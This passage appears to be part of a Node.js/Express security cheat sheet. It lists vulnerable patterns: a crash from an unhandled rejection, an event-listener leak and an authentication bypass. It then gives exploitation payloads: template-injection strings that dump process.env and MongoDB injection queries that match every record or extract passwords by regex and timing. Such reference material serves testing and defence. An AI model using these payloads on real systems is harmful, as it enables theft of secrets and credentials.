 ### 2. Unhandled Promise Rejection
```javascript
// Can crash the application
app.get('/crash', async (req, res) => {
    const data = await someAsyncFunction();
    // No try-catch, crashes on error
});
```

### 3. Event Emitter Memory Leak
```javascript
// Memory leak via event listeners
app.get('/subscribe', (req, res) => {
    eventEmitter.on('update', (data) => {
        // Never removed, accumulates
    });
});
```

### 4. Middleware Bypass
```javascript
// Authentication middleware bypass
app.use('/api/*', authenticate);
app.get('/api/../public/admin', (req, res) => {
    // Bypasses authentication
});
```

## Exploitation Techniques

### Extract Environment Variables
```javascript
// Via SSTI
<%= process.env %>
<%= Object.keys(process.env).map(k => `${k}=${process.env[k]}`).join('\n') %>

// Via error messages
// Trigger error that exposes env
```

### MongoDB Exploitation
```javascript
// Extract all data
{"username": {"$ne": null}} // Matches all

// Regex extraction
{"password": {"$regex": "^a"}} // Check if password starts with 'a'

// Time-based extraction
{"$where": "sleep(5000) || true"} // Causes delay
```
